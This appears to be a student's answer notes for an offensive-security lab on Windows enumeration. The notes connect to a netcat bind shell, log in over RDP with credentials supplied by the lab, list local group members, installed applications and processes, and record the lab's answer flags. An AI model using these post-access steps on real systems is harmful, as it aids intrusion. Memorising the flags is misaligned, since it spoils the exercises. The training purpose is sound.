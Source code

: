 # Question 1
Check the users of the local group Remote Management Users on CLIENTWK220 (VM #1). Enter a user which is in this group apart from steve.

Connect to your assigned VM #1 using the netcat bind shell on port 4444, as demonstrated in Listing 6.
To view the list of users in the Remote Management Users group, refer to the command in Listing 10 (16.1.2).

nc 192.168.182.220 4444
C:\Users\dave> powershell

PS C:\Users\dave> Get-LocalGroup
PS C:\Users\dave> Get-LocalGroupMember 'Remote Management Users'
User        CLIENTWK220\daveadmin Local          
User        CLIENTWK220\steve     Local

# Question 2 
Enumerate the installed applications on CLIENTWK220 (VM #1) and find the flag.
HINT
Connect to your assigned VM #1 using the netcat bind shell on port 4444.
Refer to the Listing 15 to find out the installed applications.
To display all properties, remove 'select displayname' from the command.

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*"
# No flag was found

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" 
PSProvider      : Microsoft.PowerShell.Core\Registry
(default)    : OS{a2a7fdea0653aa45483e0ac1e8cc4706}

Questions 3
We'll now use an additional machine, CLIENTWK221 (VM #2), to practice what we learned in this section. Access the machine via RDP as user mac with the password IAmTheGOATSysAdmin!. Identify another member of the local Administrators group apart from offsec and Administrator.
HINT
Refer to Listing 10 for local Administrators group users.

xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.192.221:3389 

# Open Powershell
PS C:\Users\mac> Get-LocalGroupMember 'Administrators'
User        CLIENTWK221\Administrator Local
User        CLIENTWK221\offsec        Local
User        CLIENTWK221\roy           Local

# Questions 4
Enumerate the currently running processes on CLIENTWK221 (VM #2). Find a non-standard process and locate the flag in the directory of the corresponding binary file.
HINT
Refer to the Listing 16 to retrieve a list of all running processes.
Look for non-standard processes by checking unusual names or locations in the output.
Identify the process binary file path, then check the binary file path to obtain the flag.

PS C:\Users\mac> Get-Process
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
     79       8    11928       1596       1.92   2492   0 NonStandardProcess
PS C:\Users\mac> (Get-Process -Name NonStandardProcess).path
# Or you can 
PS C:\Users\mac> (Get-Process -Id 2492).path
C:\Users\mac\AppData\Roaming\SuperCompany\NonStandardProcess.exe

PS C:\Users\mac> cd C:\Users\mac\AppData\Roaming\SuperCompany\
PS C:\Users\mac\AppData\Roaming\SuperCompany> type flag.txt
OS{5fbe10088d42866b22115f48b1721812}
